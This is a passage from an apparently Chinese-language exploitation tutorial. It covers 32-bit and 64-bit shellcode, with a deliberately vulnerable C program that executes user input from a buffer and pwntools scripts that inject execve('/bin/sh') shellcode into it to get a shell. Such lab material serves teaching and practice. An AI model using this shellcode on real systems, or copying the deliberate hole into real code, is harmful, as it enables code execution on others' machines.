 push 字符串`"/bin/sh"`，此时 esp 指向字符串，即直接把 esp 的值赋给 ebx 即可。`"/bin/sh"`的值可以在 gdb 调试中`searchmem /bin/sh`得到。Shellcode 的长度为 29。

Exploit：

```python
#!/usr/bin/env python
from pwn import *
p = process('./main')
context.arch = 'i386'
sh = asm('''
	mov eax, 0xb
	mov ecx, 0
	mov edx, 0
	push 0x68732f
	push 0x6e69622f
	mov ebx, esp
	int 0x80
''')
info(disasm(sh))
info(len(sh))
# gdb.attach(p)
p.sendafter('shellcode>>\n', sh.ljust(0x20))
p.interactive()
```

## shellcode64

Source Code：

```c
// gcc main.c -z execstack -o main
#include <stdio.h>
int main() {
	void (*ptr)();
	char buf[0x40];
	puts("shellcode>>");
	read(0, buf, 0x40);
	ptr = buf;
	ptr();
}
```

64 位下不能直接 push 值，需要通过寄存器 push。Shellcode 的长度为 37

Exploit：

```python
#!/usr/bin/env python
from pwn import *
p = process('./main')
context.arch = 'amd64'
sh = asm('''
	mov rax, 59
	mov rsi, 0
	mov rdx, 0
	mov rdi, 0x68732f6e69622f
	push rdi
	mov rdi, rsp
	syscall
''')
info(disasm(sh))
info(len(sh))
# gdb.attach(p)
p.sendafter('shellcode>>\n', sh.ljust(0x40))
p.interactive()
```
